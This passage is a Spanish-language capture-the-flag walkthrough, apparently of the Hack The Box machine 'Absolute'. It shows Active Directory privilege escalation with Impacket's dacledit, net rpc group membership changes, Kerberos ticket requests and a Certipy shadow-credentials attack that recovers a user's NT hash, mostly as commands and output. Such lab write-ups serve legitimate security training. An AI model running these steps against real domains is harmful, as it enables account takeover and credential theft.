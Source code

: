 - <https://github.com/fortra/impacket/blob/d71f4662eaf12c006c2ea7f5ec09b418d9495806/examples/owneredit.py>

- <https://github.com/ShutdownRepo/impacket.git>.

- Ahora obtendremos control total del grupo Network Audit para el usuario m.lovegod.

```bash
➜  content python3 dacledit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] DACL backed up to dacledit-20240619-000424.bak
[*] DACL modified successfully!
```

- Ahora agregamos el usuario.

```bash
➜  content net rpc group addmem "Network Audit" m.lovegod -U 'absolute.htb/m.lovegod%AbsoluteLDAP2022!' -S dc.absolute.htb --use-kerberos=required
```

- Comprobamos que el usuario esta en el grupo.

```bash
➜  content net rpc group members "Network Audit" -U 'absolute.htb/m.lovegod%AbsoluteLDAP2022!' -S dc.absolute.htb --use-kerberos=required
absolute\m.lovegod
absolute\svc_audit
```

- Ahora vamos a generar un TGT y lo exportamos como variable para después autenticarnos.

```bash
➜  content impacket-getTGT absolute.htb/m.lovegod:AbsoluteLDAP2022!
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in m.lovegod.ccache
➜  content export KRB5CCNAME=m.lovegod.ccache
```

- En este punto deberíamos de tener `GenericWrite` en el usuario `winrm_user` podemos usar `certipy` para obtener el `TGT` del usuario <https://github.com/ly4k/Certipy>.

```bash
➜  content certipy-ad shadow auto -u absolute.htb/m.lovegod@dc.absolute.htb -k -no-pass -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '57b7f097-a9b3-ed02-6197-427cafe8b77b'
[*] Adding Key Credential with device ID '57b7f097-a9b3-ed02-6197-427cafe8b77b' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '57b7f097-a9b3-ed02-6197-427cafe8b77b' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

